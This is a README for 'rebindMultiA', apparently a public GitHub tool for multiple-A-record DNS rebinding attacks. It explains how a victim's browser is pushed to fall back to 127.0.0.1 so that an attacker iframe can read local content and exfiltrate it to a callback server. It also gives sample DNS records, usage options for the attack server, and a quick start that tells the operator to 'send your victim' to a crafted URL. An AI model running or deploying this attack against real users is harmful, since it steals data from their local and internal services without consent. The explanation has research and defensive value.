

## rebindMultiA
`rebindMultiA` is a tool to perform a Multiple A Record rebind attack. 

`rebindmultia.com` is a domain that I've set up to assist with these attacks. It makes every IP its own authoritative nameserver for the domain `[IP].ns.rebindmultia.com`. For example, `13.33.33.37.ns.rebindmultia.com`'s authoritative nameserver is `13.33.33.37.ip.rebindmultia.com` which resolves (as you might have guessed) to `13.33.33.37`. 

## Multiple A Record Rebind Attack
A Multiple A Record is a variant of a DNS Rebinding attack that weaponizes an attacker's ability to respond with two IP address in response to a DNS request and the browser's tendency to fallback to the second IP in the DNS response when the first one doesn't respond. In this attack, the attacker will configure a malicious DNS server and two malicious HTTP servers. The DNS server will respond with two A records:
```
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 13.33.33.37
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 127.0.0.1
```
The victim browser will then connect to the first IP and begin interacting with the attacker's first malicious HTTP server. This server will respond with a page that contains two iframes, one to `/steal` and one to `/rebind`. The `/steal` iframe will load up a malicious page to reach into the second iframe and grab the content. The `/rebind` endpoint, when hit, will issue a 302 redirect to `/` and kill the first malicious HTTP server. As a result, when the browser reaches back out to the attacker's HTTP server, it will be met with a closed port. **As such, it will fallback to the second IP**. Once the target content has been loaded in the second iframe, the first iframe can reach into it, steal the data, and exfiltrate it to the attacker's second malicious HTTP server - the callback server.

**This attack only works in a Windows environment.** Linux and Mac will default to the private IP first and the attacker's server will never be queried. 

## Graphic + Explaination

1. The browser resolves the host `127.0.0.1.target.13.33.33.37.ns.rebindmultia.com`.
2. The DNS server (included in `server.py`) parses the requested dns name and returns two A records: `13.33.33.37` and `127.0.0.1`.
3. The victim's browser reaches out the attacker's malicious HTTP server (included in `server.py`) and loads the `/parent` page which has two iframes.
4. The victim's browser loads `/steal` from the attacker's malicious HTTP server.
5. The victim's browser loads `/rebind` which results in a 302 redirect to `/` (the HTTP server will exit after this request).
6. The victim's browser redirect's to `/` per the `302` from the attacker's server.
7. The victim's browser attempts to load `/` from the attacker's (now dead) HTTP server, but fails to do so. 
8. The browser then shifts to the **second** IP in the DNS cache and resolves the hostname to `127.0.0.1`. It then reaches out to that server and loads up the page in the iframe.
9. The attacker's `steal` iframe reaches into the newly loaded second iframe and grabs the content.
10. The attacker's `steal` iframe then sends the results back to the attacker's callback server.

## Usage
```
pip3 install -r requirements.txt
python3 server.py --help
```
```
usage: server.py [-h] [-p PORT] [-c CALLBACK_PORT] [-d DNS_PORT] [-f FILE] [-l LOCATION]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Specify port to attack on targetIp. Default: 80
  -c CALLBACK_PORT, --callback-port CALLBACK_PORT
                        Specify the callback HTTP server port. Default: 31337
  -d DNS_PORT, --dns-port DNS_PORT
                        Specify the DNS server port. Default: 53
  -f FILE, --file FILE  Specify the HTML file to display in the first iframe.(The "steal" iframe). Default: steal.html
  -l LOCATION, --location LOCATION
                        Specify the location of the data you'd like to steal on the target. Default: /
```

If you get this error:
```
┬─[justin@RhynoDroplet:~/p/rebindMultiA]─[14:26:24]─[G:master=]
╰─>$ python3 server.py

Traceback (most recent call last):
  File "server.py", line 2, in <module>
    from http.server import HTTPServer, BaseHTTPRequestHandler, ThreadingHTTPServer
ImportError: cannot import name 'ThreadingHTTPServer'
```
Then you need to use a more up-to-date version of Python. Python 3.7+. 

## Quick Start
This must be executed from publically accessible IP.
```
git clone https://github.com/Rhynorater/rebindMultiA
cd rebindMutliA
pip3 install -r requirements
echo "Send your victim to http://127.0.0.1.target.`curl -s http:/ipinfo.io/ip`.ns.rebindmultia.com/parent to exfil 127.0.0.1
sudo python3 server
```
